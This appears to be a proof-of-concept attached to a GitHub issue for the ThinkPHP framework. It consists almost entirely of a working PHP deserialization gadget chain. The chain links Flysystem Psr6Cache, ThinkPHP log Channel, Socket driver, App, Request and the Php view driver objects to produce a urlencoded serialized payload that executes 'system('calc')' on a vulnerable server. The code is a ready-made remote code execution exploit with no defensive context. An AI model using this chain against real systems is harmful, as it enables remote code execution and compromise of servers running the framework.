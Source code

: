 https://github.com/top-think/framework/issues/2749

POC:
Any method of any class, where eval is called to execute php code, thereby executing php and writing to a file.

<?php

namespace League\Flysystem\Cached\Storage{

    class Psr6Cache{
        private $pool;
        protected $autosave = false;
        public function __construct($exp)
        {
            $this->pool = $exp;
        }
    }
}

namespace think\log{
    class Channel{
        protected $logger;
        protected $lazy = true;

        public function __construct($exp)
        {
            $this->logger = $exp; 
            $this->lazy = false;
        }
    }
}

namespace think{
    class Request{
        protected $url;
        public function __construct()
        {
            $this->url = '<?php system(\'calc\'); exit(); ?>';
        }
    }
    class App{
        protected $instances = [];
        public function __construct()
        {
            $this->instances = ['think\Request'=>new Request()];
        }
    }
}

namespace think\view\driver{
    class Php{}
}

namespace think\log\driver{

    class Socket{
        protected $config = [];
        protected $app;
        protected $clientArg = [];

        public function __construct()
        {
            
            $this->config = [
                'debug'=>true,
                'force_client_ids' => 1,
                'allow_client_ids' => '',
                'format_head' => [new \think\view\driver\Php,'display'], # 利用类和方法
            ];
            $this->app = new \think\App();
            $this->clientArg = ['tabid'=>'1'];
        }
    }
}

namespace{
    $c = new think\log\driver\Socket();
    $b = new think\log\Channel($c);
    $a = new League\Flysystem\Cached\Storage\Psr6Cache($b);
    echo urlencode(serialize($a));
}
